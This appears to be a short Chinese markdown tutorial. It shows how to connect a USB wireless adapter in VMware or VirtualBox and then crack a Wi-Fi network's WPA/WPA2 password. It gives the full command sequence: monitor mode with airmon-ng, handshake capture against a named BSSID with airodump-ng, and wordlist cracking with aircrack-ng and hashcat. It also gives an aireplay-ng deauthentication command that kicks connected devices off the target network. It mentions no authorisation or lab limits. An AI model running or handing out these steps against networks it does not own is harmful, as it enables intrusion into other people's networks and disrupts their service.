 # 配置网卡

- WM Ware(开机后)

    虚拟机->可移动设备->Ralink 802.11 n Wlan(显卡型号)->连接(断开与主机的连接)

- VBox

    虚拟机关机状态下->将设备插入主机->设置->USB设备->添加->删除除了供应商标识(VendorID)和产品标识(ProductID)之外的参数->开机->插入设备

- 验证是否连接成功

    ```bash
    lsusb
    airmon-ng
    ifconfig
    ```
    出现无线网卡型号即为成功



# 基础命令












# 简单示例

- 以无线网卡名为wlan0举例

    - `启动网卡`

        airmon-ng start wlan0

    - `关闭干扰程序`

        airmon-ng check kill

    - `开启抓包`

        airodump-ng wlan0mon

    - `指定特定的wifi抓握手包`

        airodump-ng -c 6 --bssid E0:24:81:AF:F3:A8 -w wireless wlan0mon

            -c 指定信道,上面已经标记目标热点的信道(CH)
            -bssid 指定目标路由器的BSSID,就是上面标记的BSSID
            -w 指定抓取的数据包保存的目录

            出现handshake则抓包成功

    - `跑包`

        aircrack-ng -a2 -b E0:24:81:AF:F3:A8 -w pass.txt wireless-01.cap

- 使用hashcat爆破(只能跑WPA/WPA2/PSK加密的)

    - `用aircrack-ng把cap转换成hccap类型数据包(会自动添加后缀名.hccap)`

        aircrack-ng wireless-01.cap -J wireless

    - `用hashcat破解WPA/PSK密码`

        hashcat -m 2500 wireless.hccap pass.txt --force

    - `若是提示"Old hccap format detected! You need to update"可以将第一步的命令改为`

        aircrack-ng wireless-01.cap -j wireless

- 注意如果抓不到握手包把对方踢下线,这样就会抓包成功

    aireplay-ng -0 10 -a <无线路由器的MAC地址> -c <连接上的设备MAC地址> wlan0mon